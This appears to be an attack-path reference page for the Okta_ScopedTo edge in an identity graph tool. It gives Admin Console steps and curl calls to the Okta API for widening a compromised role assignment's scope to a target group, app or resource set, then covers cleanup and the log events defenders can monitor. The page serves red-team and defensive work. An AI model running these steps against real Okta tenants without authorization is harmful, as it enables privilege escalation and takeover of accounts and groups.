

## General Information

The Okta_HasRoleAssignment edges connect users, groups, and applications to their respective Okta_RoleAssignment nodes. The Okta_ScopedTo edges connect the Okta_RoleAssignment nodes to the resources they are scoped to, such as the organization or specific groups or applications.



## Abuse Info

`Okta_ScopedTo` is a scope edge. It is not directly abusable without the role assignment and principal on the other side of the source `Okta_RoleAssignment`. An attacker uses this edge to answer the most important question about a role assignment: which destination resource can the source assignment affect?

To abuse this edge:

1. Follow incoming `Okta_HasRoleAssignment` to identify the source principal that owns the role assignment.
2. Compromise that source user, a member of the source group, or the source application credentials.
3. Follow `Okta_HasRole` from the principal to identify the role or custom role.
4. Use the destination resource from `Okta_ScopedTo` as the target for the role's permissions.
5. Continue along the derived traversable edge that represents the concrete permission, such as `Okta_AppAdmin`, `Okta_GroupAdmin`, `Okta_HelpDeskAdmin`, `Okta_OrgAdmin`, `Okta_SuperAdmin`, `Okta_AddMember`, `Okta_ResetPassword`, `Okta_ResetFactors`, `Okta_ManageApp`, or `Okta_ReadClientSecret`.

If the attacker can modify the source role assignment, they can also expand the assignment's scope. Standard-role assignments use role target APIs for group and app targets. Custom-role assignments use resource sets, so adding a destination resource to the resource set can extend existing custom-role power to that object.

Using the Admin Console:

1. Sign in as an administrator who can view or manage the source role assignment.
2. Open **Security** > **Administrators** and locate the principal attached to the source assignment.
3. Review the role and scope. For standard roles, inspect the target groups or applications. For custom roles, inspect the custom role and resource set.
4. If abusing existing scope, navigate to the destination resource and perform the role-backed action.
5. If expanding scope, add only the target group, target application, or resource-set member needed for the path.
6. Re-authenticate or mint a fresh token as the source principal if the role or scope was changed.
7. Verify the derived permission edge now reaches the destination resource.

Using the Okta API:

1. Set variables for the principal, assignment, and target resource. Use the variable set that matches the principal type and target type.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED"
    export ASSIGNEE_USER_ID="00u..."
    export ASSIGNEE_GROUP_ID="00g..."
    export ASSIGNEE_CLIENT_ID="0oa..."
    export ROLE_ASSIGNMENT_ID="JBC..."
    export TARGET_GROUP_ID="00g..."
    export TARGET_APP_NAME="salesforce"
    export TARGET_APP_ID="0oa..."
    export RESOURCE_SET_ID="iamo..."
    export CONTROLLED_USER_ID="00u..."
    export TARGET_RESOURCE_URL="$OKTA_ORG/api/v1/groups/$TARGET_GROUP_ID/users"
    ```

2. Retrieve the source role assignment and inspect embedded targets.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$ASSIGNEE_USER_ID/roles/$ROLE_ASSIGNMENT_ID?expand=targets/catalog/apps&expand=targets/groups" \
      | jq '{id, type, status, assignmentType, targets: ._embedded.targets, resourceSet: ."resource-set"}'
    ```

3. For a standard role scoped to groups, list and optionally add the destination group target. Use the user, group, or client path that matches the assignee.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$ASSIGNEE_USER_ID/roles/$ROLE_ASSIGNMENT_ID/targets/groups" \
      | jq -r '.[] | [.id, .type, .profile.name] | @tsv'

    curl -i -sS -X PUT \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$ASSIGNEE_USER_ID/roles/$ROLE_ASSIGNMENT_ID/targets/groups/$TARGET_GROUP_ID"

    curl -i -sS -X PUT \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$ASSIGNEE_GROUP_ID/roles/$ROLE_ASSIGNMENT_ID/targets/groups/$TARGET_GROUP_ID"

    curl -i -sS -X PUT \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/oauth2/v1/clients/$ASSIGNEE_CLIENT_ID/roles/$ROLE_ASSIGNMENT_ID/targets/groups/$TARGET_GROUP_ID"
    ```

    A successful target assignment returns `204 No Content`.

4. For a standard `APP_ADMIN` role scoped to an app instance, add the destination app instance target.

    ```bash
    curl -i -sS -X PUT \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$ASSIGNEE_USER_ID/roles/$ROLE_ASSIGNMENT_ID/targets/catalog/apps/$TARGET_APP_NAME/$TARGET_APP_ID"
    ```

5. For a custom role scoped through a resource set, add the destination resource URL to the source resource set.

    ```bash
    curl -sS -X PATCH \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      -d "{\"additions\":[\"$TARGET_RESOURCE_URL\"]}" \
      "$OKTA_ORG/api/v1/iam/resource-sets/$RESOURCE_SET_ID/resources" \
      | jq '{id, label, lastUpdated}'
    ```

6. Verify the destination resource is now in scope.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$ASSIGNEE_USER_ID/roles/$ROLE_ASSIGNMENT_ID/targets/groups" \
      | jq -r '.[] | select(.id == env.TARGET_GROUP_ID) | [.id, .profile.name] | @tsv'

    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/iam/resource-sets/$RESOURCE_SET_ID/resources" \
      | jq -r --arg href "$TARGET_RESOURCE_URL" '.resources[]? | select(.orn == $href or ._links.self.href == $href) | [.id, .orn] | @tsv'
    ```

7. Use the role-backed action against the scoped destination. For example, if the role permits group membership management on `TARGET_GROUP_ID`, add the controlled user to that group.

## Cleanup after Abuse

Cleanup for `Okta_ScopedTo` restores the source role assignment's original target scope, removes any temporary resource-set member added to expand custom-role scope, and reverses the concrete action performed against the scoped destination resource.

Cleanup using Admin Console:

1. Open the source role assignment under **Security** > **Administrators**.
2. Remove temporary group or app targets that were added to the assignment.
3. For a custom role, open the resource set and remove the temporary destination resource.
4. If removing the last target would unintentionally make a standard role apply to all targets, delete and recreate the role assignment with the intended targets instead.
5. Reverse the action performed against the destination resource, such as group membership, app assignment, password reset, factor reset, or credential change.
6. Revoke sessions and tokens created through the temporary scope.
7. Verify the source assignment no longer has the destination in scope.

Cleanup using API:

1. Remove a temporary group target from the matching principal type.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$ASSIGNEE_USER_ID/roles/$ROLE_ASSIGNMENT_ID/targets/groups/$TARGET_GROUP_ID"

    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$ASSIGNEE_GROUP_ID/roles/$ROLE_ASSIGNMENT_ID/targets/groups/$TARGET_GROUP_ID"

    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/oauth2/v1/clients/$ASSIGNEE_CLIENT_ID/roles/$ROLE_ASSIGNMENT_ID/targets/groups/$TARGET_GROUP_ID"
    ```

    Okta does not allow removing the last target from some standard-role assignments. If that happens, delete and recreate the role assignment with the intended target set.

2. Remove a temporary app instance target if one was added.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$ASSIGNEE_USER_ID/roles/$ROLE_ASSIGNMENT_ID/targets/catalog/apps/$TARGET_APP_NAME/$TARGET_APP_ID"
    ```

3. Remove a temporary resource-set resource. First resolve the resource ID, then delete it.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/iam/resource-sets/$RESOURCE_SET_ID/resources" \
      | tee /tmp/okta-scopedto-resources.json

    export TEMP_RESOURCE_ID="$(jq -r --arg href "$TARGET_RESOURCE_URL" '.resources[]? | select(.orn == $href or ._links.self.href == $href) | .id' /tmp/okta-scopedto-resources.json | head -n1)"

    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/iam/resource-sets/$RESOURCE_SET_ID/resources/$TEMP_RESOURCE_ID"
    ```

4. Revoke sessions for users that received access through the temporary scope.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$CONTROLLED_USER_ID/sessions?oauthTokens=true"
    ```

5. Verify the destination is no longer in the source assignment's scope.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$ASSIGNEE_USER_ID/roles/$ROLE_ASSIGNMENT_ID/targets/groups" \
      | jq -r '.[] | select(.id == env.TARGET_GROUP_ID)'

    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/iam/resource-sets/$RESOURCE_SET_ID/resources" \
      | jq -r --arg href "$TARGET_RESOURCE_URL" '.resources[]? | select(.orn == $href or ._links.self.href == $href)'
    ```

## Opsec Considerations

Scope changes can be stealthier than role-name changes because the role label stays the same while the set of manageable resources changes. Monitor role target additions/removals, `iam.resourceset.resources.add`, `iam.resourceset.resources.delete`, `iam.resourceset.bindings.add`, `iam.resourceset.bindings.delete`, and the follow-on admin action against the newly scoped destination.

For service app sources, also correlate OAuth client-credentials token grants and Okta Management API calls after scope changes. For group sources, correlate new group membership with immediate use of the inherited admin scope.

## References

- [Okta roles guide](https://developer.okta.com/docs/api/openapi/okta-management/guides/roles/)
- [Okta role assignment concept](https://developer.okta.com/docs/concepts/role-assignment/)
- [Okta User Role Targets API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/RoleBTargetAdmin/)
- [Okta Group Role Targets API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/RoleBTargetBGroup/)
- [Okta Client Role Targets API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/RoleBTargetClient/)
- [Okta Resource Sets API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/RoleCResourceSet/)
- [Okta Resource Set Resources API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/RoleCResourceSetResource/)
- [Okta Role Resource Set Bindings API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/RoleDResourceSetBinding/)
- [Okta User Sessions API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/UserSessions/)
- [Okta System Log event types](https://developer.okta.com/docs/reference/api/event-types/)
- [Eli Guy: Okta RBAC Attacks](https://xmcyber.com/blog/okta-rbac-attacks/)
